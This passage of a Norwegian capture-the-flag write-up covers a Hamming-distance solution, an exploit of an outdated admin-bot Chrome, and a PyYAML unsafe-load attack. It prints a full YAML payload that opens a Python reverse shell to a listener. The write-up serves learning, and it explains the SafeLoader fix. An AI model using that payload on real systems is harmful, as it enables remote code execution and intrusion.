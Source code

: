 kan vi enkelt finne ut hvilket codeword som er nærmest svarene våre, ved å summere sammen bits i GF(2) (også kalt Hamming weight). Dette lager en liste over hvor mange bits som er forskjellig for hvert codeword, sammenlignet med svarene vi har fått. Det korrekte codewordet skal ha en differanse på 0, 1, 2 eller 3 bit-feil i forhold til svarene vi har fått. Indeksen til den minste Hamming-weighten er altså tallet vi er ute etter.

```python
cands = [sum([int(c+a)%2 for (c,a) in zip(code, answers)]) for code in codewords]
answer = cands.index(min(cands))
print(verify_guess(game_id, answer))
```

Fullstendig kode kan finnes i [guessing4.zip/guessing4.py](guessing4.zip).

### 3.4 Utfordringer umulig

#### 3.4.12_selenium_admin_user

Allerede på `2.02_blog_1` er det mulig å se på `/logs` og observere hvor ekstremt utdatert nettleseren til `admin` er.

> Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36

Denne finnes det mange sårbarheter i, blant annet `CVE-2020-16040`. Med antagelse om at admin-boten kjører uten sandbox, testet jeg ut en public exploit, men med egenprodusert shellcode som laget reverse shell til Corax. Herfra fikk jeg shell i noen titalls sekunder til sammen, noe som var nok til å finne user-flagget. Initielt var dette verdt 64 poeng, men etter at mange begynte å finne dette, ble poengene erstattet med "stjerner i margen" på scoreboard.



#### 3.4.15_cicd_user

Dette flagget ble lagt til noe senere, men i forbindelse med `2.11_cicd` endrer man på en fil i YAML-format. Ved å introdusere syntaksfeil og logiske feil i denne, var det mulig å framprovosere feilmeldinger som lekket stacktrace, og dermed litt av koden. En av linjene som feilet var

```python
self.yaml_obj = yaml.load(data, Loader=yaml.Loader)
```

Hvor det bør ringe noen varsellamper for de som har vært borti YAML og Python før. Man skal alltid bruke SafeLoader, aldri Loader, ellers kan man opprette egne Python-objekter. De som vedlikeholder PyYAML har forsøkt å blokkere det meste, men det er fortsatt trivielt å lage objekter som kjører vilkårlig kode, og dermed gir RCE.

Jeg sendte derfor inn en yaml-fil som så slik ut

```yaml
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:exec
  - [ "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.x.x.x',1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/sh')" ]
```

og kopierte over netcat på workstation-serveren for å lytte på oppgitt port. Dette gir tilgang til litt av hvert "bak forhenget" i CTFen, men hovedsaklig `deploy.py`-scriptet som inneholder flaggene for `2.11_cicd` og `2.12_position`. Denne serveren brukes kun til å kjøre git server + hooks på, så det er ikke stort mer å finne.

